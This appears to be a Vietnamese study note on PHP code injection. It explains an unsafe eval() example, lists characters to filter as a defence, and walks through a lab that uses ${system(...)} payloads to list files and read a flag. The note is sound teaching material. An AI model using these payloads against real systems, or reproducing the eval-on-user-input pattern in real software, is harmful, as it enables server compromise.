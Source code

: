 I. Lý thuyết<br>
1. tiêm code là gì<br>
- là vul web app cho phép attacker tiêm code độc hại vào để thực thi hay xâm phạm hoàn toàn app và data của nó
- attacker chỉ bị giới hạn bởi chức năng của chính ngôn ngữ mà hắn chèn<br>

2. cách để test<br>
- cần phát hiện all vector input nơi user can nhập data
- VD:<br>
+ app lấy input từ user và in nó trên HTML page<br>
```
$name = $_GET['name’];
eval("echo  \$name;");
```
+ -> xài hàm: eval -> đánh giá chuỗi dưới dạng code PHP và ko lọc input của user
+ khi tiêm payload url sẽ có dạng: /index.php?name=1; phpinfo();
+ đoạn mã kết thúc bằng dấu ';' và hàm phpinfo(); sẽ hiển thị all in4 của PHP
+ -> sau khi thấy kết quả, can nâng cấp lên thành tiêm lệnh: /index.php?name=1; system(‘ls -la’);<br>

3. phòng tránh<br>
- xác thực và lọc all input từ user
- liệt kê các kí tự bị từ chối: |  ;  &  $  >  <  '  \   !   >>   #
- thoát all kí tự liên quan đến app system<br>

4. tool<br>
- https://portswigger.net/<br>

II. lap: Hashable<br>
1. tìm ra nơi can nhập input -> nhập thử code: ${system('pwd')} -> check web hoạt động -> /var/www/html<br>

![image](https://github.com/user-attachments/assets/03e0bbd1-437b-4e05-9b6f-2022b46e245c)<br>

2. tiêm code: ${system('ls -la')} -> flag_23894ABCX1.txt<br>

![image](https://github.com/user-attachments/assets/8473fe6a-bf11-48a2-98ed-fbe46b951ce5)<br>

3. đọc file: ${system('cat flag_23894ABCX1.txt')} -> 18ab51f960bd149bcb2497b9998c752c<br>

![image](https://github.com/user-attachments/assets/039e686b-4e75-4276-8d0a-b8c783582188)
